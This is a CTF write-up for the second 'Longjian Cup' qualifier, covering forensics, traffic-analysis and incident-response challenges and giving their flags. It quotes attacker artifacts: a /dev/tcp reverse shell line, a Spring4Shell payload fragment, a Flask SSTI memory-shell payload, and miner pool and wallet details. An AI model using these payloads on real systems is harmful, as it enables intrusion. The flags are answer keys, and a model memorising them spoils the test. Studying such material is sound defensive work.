






# 第二届“陇剑杯”网络安全大赛线上预选赛

本次大赛延续首届“以防为主”的品牌特色，聚焦人工智能技术在安全防御场景中的应用，打造全场景网络安全防御演练场，吸引了全国 31 个省市区的 1681 支队伍、6724 人报名参赛。通过线上选拔，200 支队伍进入半决赛，120 支队伍进入决赛。

## hard_web

[附件下载](https://pan.baidu.com/s/1WP28S0BTrUfRGX-hGMWfkQ) 提取码（GAME）[备用下载](https://share.weiyun.com/ej9tuo4M)

### hard_web_1

> 服务器开放了哪些端口，请按照端口大小顺序提交答案，并以英文逗号隔开（如服务器开放了80 81 82 83端口，则答案为80,81,82,83）

```
ip.dst == 192.168.162.188 && tcp.connection.synack

tcp.flags.ack == 1 and tcp.flags.syn ==1
```

FLAG：`80,888,8888`

### hard_web_2

> 服务器中根目录下的flag值是多少？

哥斯拉 JSP 流量分析。强特征：在 `Cookie`的结尾处有分号。

解密最后一个 HTTP 响应数据包。

方法 1：使用 [Cyberchef](https://gchq.github.io/CyberChef/#recipe=AES_Decrypt(%7B'option':'UTF8','string':'748007e861908c03'%7D,%7B'option':'Hex','string':''%7D,'ECB','Hex','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)Gunzip()&input=YjVjMWZhZGJiN2UyOGRhMDg1NzI0ODZkOGU2OTMzYTg0YzUxNDQ0NjNmMTc4YjM1MmM1YmRhNzFjZmY0ZThmZmU5MTlmMGYxMTVhNTI4ZWJmYzRhNzliMDNhZWEwZTMxY2IyMmQ0NjBhZGE5OThjNzY1N2Q0ZDBmMWJlNzFmZmE&oenc=65001)



FLAG：`flag{9236b29d-5488-41e6-a04b-53b0d8276542}`

### hard_web_3

> 该webshell的连接密码是多少？

```
String xc="748007e861908c03"
```

对密钥进行 MD5 解密即可。

```python
#!/usr/bin/env python3

import hashlib
import itertools
import string

target = "748007e861908c03"
chars = string.printable.strip()  # 所有可打印字符

print("[+] MD5 Collision Hunter")
print(f"[+] Target: {target}")
print("[+] Pattern: 1****y")
print(f"[+] Charset: {len(chars)} characters")

for combo in itertools.product(chars, repeat=4):
    s = f"1{''.join(combo)}y"
    h = hashlib.md5(s.encode()).hexdigest()[:16]
    
    if h == target:
        print(f"\n[!] BINGO: {s}")
        print(f"[!] Full MD5: {hashlib.md5(s.encode()).hexdigest()}")
        exit(0)
        
print("\n[-] No collision found")
```

FLAG：`14mk3y`

## server save

解压密码为`c77ad47ba4c85fae66f08ec12e0085dd`

### server save_1

> 黑客是使用什么漏洞来拿下root权限的。格式为：CVE-2020-114514

```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=
```

FLAG：`CVE-2022-22965`

### server save_2

> 黑客反弹shell的ip和端口是什么，格式为：10.0.0.1:4444

`bbbb.sh`文件

```
/bin/sh -i >& /dev/tcp/192.168.43.128/2333 0>&1
```

FLAG：`192.168.43.128:2333`

### server save_3

> 黑客的病毒名称是什么？ 格式为：filename

`.bash_history`

`/home/guests/main`

FLAG：`main`

### server save_4

> 黑客的病毒运行后创建了什么用户？请将回答用户名与密码：username:password

可以结合[云沙箱](https://sandbox.ti.qianxin.com/sandbox/page/detail?type=file&id=AZiep5Wfh6wn_HCyIJXV)

FLAG：`ll:123456`

### server save_5

> 服务器在被入侵时外网ip是多少? 格式为：10.10.0.1

`/home/guests/.log.txt`

FLAG：`172.105.202.239`

### server save_6

> 病毒运行后释放了什么文件？格式：文件1,文件2

FLAG：`lolMiner ,mine_doge.sh`

### server save_7

> 矿池地址是什么？ 格式：domain:1234

`mine_doge.sh`

FLAG：`doge.millpools.cc:5567`

### server save_8

> 黑客的钱包地址是多少？格式：xx:xxxxxxxx

FLAG：`DOGE:DRXz1q6ys8Ao2KnPbtb7jQhPjDSqtwmNN9.lolMinerWorker`

## WS

[附件下载](https://pan.baidu.com/share/init?surl=SPvbhQ9nw5Wp23TzUHFr_g) 提取码（GAME）[备用下载](https://share.weiyun.com/lykzsNsI)

### Wireshark1_1

> 被入侵主机的IP是？

FLAG：`192.168.246.28`

### Wireshark1_2

> 被入侵主机的口令是？

FLAG：`Youcannevergetthis`

### Wireshark1_3

> 用户目录下第二个文件夹的名称是？

FLAG：`Downloads`

### Wireshark1_4

> /etc/passwd中倒数第二个用户的用户名是？

FLAG：`mysql`

## IR

本题附件见于平台公告的 IR.zip，解压密码为`f0b1ba11478343f404666c355919de3f`

> 你是公司的一名安全运营工程师，今日接到外部监管部门通报，你公司网络出口存在请求挖矿域名的行为。需要立即整改。经过与网络组配合，你们定位到了请求挖矿域名的内网 IP 是 10.221.36.21。查询 CMDB 后得知该 IP 运行了公司的工时系统。（虚拟机账号密码为：root/IncidentResponsePasswd）

### IncidentResponse_1

> 挖矿程序所在路径是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）

```bash
echo -n '/etc/redis/redis-server'|md5sum|cut -d ' ' -f1
```

FLAG：`6f72038a870f05cbf923633066e48881`

### IncidentResponse_2

> 挖矿程序连接的矿池域名是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）

在 `redis.conf` 文件中

```bash
echo -n 'donate.v2.xmrig.com'|md5sum|cut -d ' ' -f1
```

FLAG：`3fca20bb92d0ed67714e68704a0a4503`

### IncidentResponse_3

> 攻击者入侵服务器的利用的方法是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）
> 题目提示：答案 md5 值前两位为 3e

“工时系统”的日志文件 `/home/app/nohup.log`

```bash
echo -n 'shirodeserialization'|md5sum|cut -d ' ' -f1
```

FLAG：`3ee726cb32f87a15d22fe55fa04c4dcd`

### IncidentResponse_4

> 攻击者的IP是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）

```bash
echo -n '81.70.166.3'|md5sum|cut -d ' ' -f1
```

FLAG：`b2c5af8ce08753894540331e5a947d35`

### IncidentResponse_5

> 攻击者发起攻击时使用的User-Agent是？（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）

nginx 日志 `access.log`

```bash
echo -n 'strings'|md5sum|cut -d ' ' -f1
```

FLAG：`6ba8458f11f4044cce7a621c085bb3c6`

### IncidentResponse_6

> 攻击者使用了两种权限维持手段，相应的配置文件路径是？(md5加密后以a开头)（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）

```bash
echo -n '/root/.ssh/authorized_keys'|md5sum|cut -d ' ' -f1
```

FLAG：`a1fa1b5aeb1f97340032971c342c4258`

### IncidentResponse_7

> 攻击者使用了两种权限维持手段，相应的配置文件路径是？(md5加密后以b开头)（答案中如有空格均需去除，如有大写均需变为小写，使用echo -n 'strings'|md5sum|cut -d ' ' -f1获取md5值作为答案）

```bash
echo -n '/lib/systemd/system/redis.service'|md5sum|cut -d ' ' -f1
```

FLAG：`b2c5af8ce08753894540331e5a947d35`

## SSW

```
http and ip.addr ==192.168.77.135 and  ip.addr ==192.168.77.155
```

### SmallSword_1

> 连接蚁剑的正确密码是______________?（答案示例：123asd）

FLAG：`6ea280898e404bfabd0ebb702327b18f`

### SmallSword_2

> 攻击者留存的值是______________?(答案示例：d1c3f0d3-68bb-4d85-a337-fb97cf99ee2e)

第二次向 `hacker.txt` 写内容

FLAG：`ad6269b7-3ce2-4ae8-b97f-f259515e7a91`

### SmallSword_3

> 攻击者下载到的flag是______________?(答案示例：flag3{uuid})

导出 exe 文件，运行后获取 jpg 图片，修复文件后得 flag。

FLAG：`flag3{8f0dffac-5801-44a9-bd49-e66192ce4f57}`

## EW

### ez_web_1

> 服务器自带的后门文件名是什么？（含文件后缀）

FLAG：`ViewMore.php`

### ez_web_2

> 服务器内网IP是多少？

FLAG：`192.168.101.132`

### ez_web_3

> 攻击者往服务器中写入的key是什么？

解压密码为`7e03864b0db7e6f9`

FLAG：`7d9ddff2-2d67-4eba-9e48-b91c26c42337`

## BF

本题附件见于平台公告的 BF.zip，解压密码为 `4cf611fce4a2fec305e54c2766b7c860`

题目给出了两个文件，分别是磁盘镜像文件`baby_forensics.vmdk`、内存文件`baby_forensics.raw`。

### baby_forensics_1

> 磁盘中的key是多少？

`key.txt` `E96<6J:Da6g_b_f_gd75a3d4ch4heg4bab66ad5d`进行 ROT47 解密。



FLAG：`2e80307085fd2b5c49c968c323ee25d5`

### baby_forensics_2

> 电脑中正在运行的计算器的运行结果是多少？

FLAG：`7598632541`

### baby_forensics_3

> 该内存文件中存在的flag值是多少？

一般便签的数据保存目录是在 `C:\Users\当前的账户用户名\AppData\Roaming\Microsoft\Sticky Notes\StickyNotes.snt` 文件，需将原文件删除，并将我们的文件重命名。

```
U2FsdGVkX195MCsw0ANs6/Vkjibq89YlmnDdY/dCNKRkixvAP6+B5ImXr2VIqBSp
94qfIcjQhDxPgr9G4u++pA==
```



`qwerasdf`

使用 CryptoJS 实现的在线网站解密，如<https://tool.oschina.net/encrypt/>

或者使用 openssl 解密

```bash
echo "U2FsdGVkX195MCsw0ANs6/Vkjibq89YlmnDdY/dCNKRkixvAP6+B5ImXr2VIqBSp94qfIcjQhDxPgr9G4u++pA==" | openssl enc -d -aes-256-cbc -md md5 -base64 -pass pass:qwerasdf
```

FLAG：`flag{ad9bca48-c7b0-4bd6-b6fb-aef90090bb98}`

## TP

### tcpdump_1

> 攻击者通过暴力破解进入了某Wiki 文档，请给出登录的用户名与密码，以:拼接，比如admin:admin

```
http && !tcp contains "用户名或密码错误"
```

FLAG：`TMjpxFGQwD:123457`

### tcpdump_2

> 攻击者发现软件存在越权漏洞，请给出攻击者越权使用的cookie的内容的md5值。（32位小写）

`userid`

```
accessToken=f412d3a0378d42439ee016b06ef3330c; zyplayertoken=f412d3a0378d42439ee016b06ef3330cQzw=; userid=1
```

FLAG：`383c74db4e32513daaa1eeb1726d7255`

### tcpdump_3

> 攻击使用jdbc漏洞读取了应用配置文件，给出配置中的数据库账号密码，以:拼接，比如root:123456



FLAG：`zyplayer:1234567`

### tcpdump_4

> 攻击者又使用了CVE漏洞攻击应用，执行系统命令，请给出此CVE编号以及远程EXP的文件名，使用:拼接，比如CVE-2020-19817:exp.so



FLAG：`CVE-2022-21724:custom.dtd.xml`

### tcpdump_5

> 给出攻击者获取系统权限后，下载的工具的名称，比如nmap

过滤反弹 shell 的流量

```
ip.addr==116.62.63.234 && tcp.port == 9999
```



FLAG：`fscan`

## HD

### hacked_1

> admIn用户的密码是什么？

AES [解密，Cyberchef](https://gchq.github.io/CyberChef/#recipe=URL_Decode(true)From_Base64('A-Za-z0-9%2B/%3D',true,false)AES_Decrypt(%7B'option':'UTF8','string':'l36DoqKUYQP0N7e1'%7D,%7B'option':'UTF8','string':'131b0c8a7a6e072e'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=S0dNN05JMC9Xdktzd0slMmJQbG1GSWhPNGdxZThqSnpSZE9pMDJHUTB3Wm9vJTNE&ieol=CRLF)

FLAG：`flag{WelC0m5_TO_H3re}`

### hacked_2

> app.config['SECRET_KEY']值为多少？

FLAG：`ssti_flask_hsfvaldb`

### hacked_3

> flask网站由哪个用户启动？

Flask session 解密

<https://github.com/noraj/flask-session-cookie-manager>

```bash
python .\flask_session_cookie_manager3.py decode -s "ssti_flask_hsfvaldb" -c ".eJwdx1EKwyAMANCrDEGiPz1Ar1KGZBi7gBpplH2Idy_d-3vTDKWrYiGzm2k5vZRUWeo2WsRObkLKeMKeuekoB4RwZvlg1hDg_S917lSeOhAFf0CTRvXp7ytYGPx2EUbnl7drWqqRk11m3cGmKw0.YpIQcw.J5vs8t8bAr0xDIxF6EqUAH2kkLE"
{'username': ""}
```

```bash
python .\flask_session_cookie_manager3.py decode -s "ssti_flask_hsfvaldb" -c ".eJwdylsKAyEMQNGtFEGiUGYBs5VpkRQz04AvjNIPce-t_TyXO9QZ8FK7quQfSd1VF6oJI_3S0HzehEQ4p60Xj43MgPXDHrhIjwc4d4X8wiDOwfNPatwoLhrIAvaAkgulxc87Y2SwWyX0xk6r59CUPJ96qvkFHeUvmg.YpIQkg.65xf8l2g9fXAImkfyihId46KkY4"
{'flag': 'red\n', 'username': ""}
```

FLAG：`red`

### hacked_4

> 攻击者写入的内存马的路由名叫什么？（答案里不需要加/）

```bash
python .\flask_session_cookie_manager3.py decode -s "ssti_flask_hsfvaldb" -c ".eJx1jUsOgkAQBa-Cs2lJCEbdcQI9A0w6DdMaYjPgfAwJmbsLC1fq7r2kKrWo6NlZGlhValmiE7yNrkS8y9iSeMQaENvYS-jt-kDXwC8S0PtG0TSVZAxulovCezhcreEZigw-Q2hoDWUVXFhk3GXH0xnyRhULoONnZB-wCzP6QN0Dqt_9b1AXsMb_8F10jm3AjdApT0mlNx2uUsY.YpIRHQ.qS_PWmxt4i4cjHYBzDz-rUdTZns"
{'username': '{{url_for.__globals__[\'__builtins__\'][\'eval\']("app.add_url_rule(\'/Index\', \'Index\', lambda :\'Hello! 123\')",{\'_request_ctx_stack\':url_for.__globals__[\'_request_ctx_stack\'],\'app\':url_for.__globals__[\'current_app\']})}}'}
```

FLAG：`Index`

## 参考资料

- <https://github.com/CTF-Archives/2023-longjiancup>
- <https://xz.aliyun.com/news/12252>
- <https://mp.weixin.qq.com/s/Y8Wfs0or4F0nTcYQDiNiIQ>
